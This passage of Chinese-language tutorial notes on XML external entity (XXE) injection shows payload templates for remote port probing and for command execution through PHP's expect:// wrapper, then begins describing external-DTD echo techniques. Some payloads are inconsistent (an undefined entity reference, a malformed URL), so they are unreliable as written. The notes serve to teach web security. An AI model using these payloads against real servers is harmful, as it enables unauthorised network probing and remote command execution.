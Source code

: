 ****

##### c. 远程端口探测

###### ①payload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "http://ip:探测端口号/test/">
]>

&xxe;
```

###### ②实例

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "http://ip:192.168.71.59:80/test/">
]>

&test;
```

![远程端口探测](http://113.45.142.235:9001/laffrex/pictures/远程端口探测.png)

****

##### d. RCE

* **服务器配置不当/开发内部应用**导致
* php环境中安装了**expect扩展**

###### ①payload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "expect://系统命令">
]>
&test;
```

###### ②实例

### 6. 回显方式

#### (1). 有回显

##### a. 方式

> 1. 在xml内部DTD中，定义一个外部参数实体引入外部dtd，外部参数实体的值是外部dtd的url，
> 2. 在外部dtd文件中，定义一个外部普通实体实体，外部实体的值是payload
> 3. 在内部dtd中引用参数实体，在xml中引用外部dtd的外部实体 
>
